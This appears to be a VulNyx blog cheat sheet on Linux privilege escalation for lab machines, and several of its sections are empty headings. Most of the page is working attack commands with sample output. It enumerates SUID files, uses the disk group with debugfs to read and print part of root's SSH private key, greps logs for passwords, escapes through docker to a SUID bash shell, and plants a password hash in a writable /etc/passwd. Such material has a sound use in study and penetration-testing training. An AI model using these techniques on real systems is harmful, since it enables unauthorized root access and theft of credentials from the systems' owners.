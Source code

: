 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Enumeration

```ruby
# sudo
sudo -l
# If when performing the previous step it tells you that sudo is not found
find / -name sudo 2>/dev/null

# suid
find / -perm -4000 2>/dev/null
find / -perm -4000 -ls 2>/dev/null
find / -perm -4000 -exec ls -l {} \; 2>/dev/null

# capabilities
/usr/sbin/getcap -r / 2>/dev/null

# users
grep "sh$" /etc/passwd

# writable
find / -writable 2>/dev/null
find / -writable 2>/dev/null | grep -viE "proc|sys|dev"
find / -writable -user low 2>/dev/null
```

If I identify a **binary** with `suid` or `sudo` **permissions** [**GTFOBins**](https://gtfobins.github.io) is the way.

---

### Cron (Task)

View `cron` jobs defined in **global file**:

```ruby
cat /etc/crontab
```

If tasks have been defined in the individual file that each user has with `crontab -e`, it is necessary to monitor with specific tools.

---

### Groups

#### sudo

When a user is part of the `sudo` **group**, he can run any command as the `root` user.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),27(sudo)

# Abuse Group
low@vulnyx:~$ sudo su
root@vulnyx:~# id
uid=0(root) gid=0(root) groups=0(root)
```

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system **disks** and **partitions**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)

# Abuse Group
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm

low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
```

#### adm

When a user is part of the `adm` **group**, he can **read log files** on the system.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),4(adm)

# Abuse Group
low@vulnyx:~$ grep --color -Eri "pass|password|secret|db" /var/log 2>/dev/null
```

#### docker

When a user is part of the `docker` **group**, they have the ability to **manage containers**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),109(docker)

# Abuse Group
low@vulnyx:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# chmod 4755 /bin/bash
# exit
low@vulnyx:~$ /bin/bash -pi
```

#### lxd

#### fail2ban

#### video

---

### Doas

---

### pkexec <=0.105-31 (CVE-2021-4034)

---

### sudo <=1.8.27 (CVE-2019-14287)

---

### chkrootkit

---

### DirtyCOW

---

### Path Hijacking (Path Variable)

---

### Python Library Hijacking

---

### Wilcard

---

### /etc/passwd (Writable)

If a low-privileged user has **write permissions** to the `/etc/passwd` file, an attacker can remove the `x` (on the **root** user line) and add a **hash**, this will cause the file that validates credentials to change from `/etc/shadow` to `/etc/passwd`.

```ruby
# Check Permissions
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd

# Create Hash
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0

# Add Hash
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash
# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash

# Authenticate
low@vulnyx:~$ su -
Password:
root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
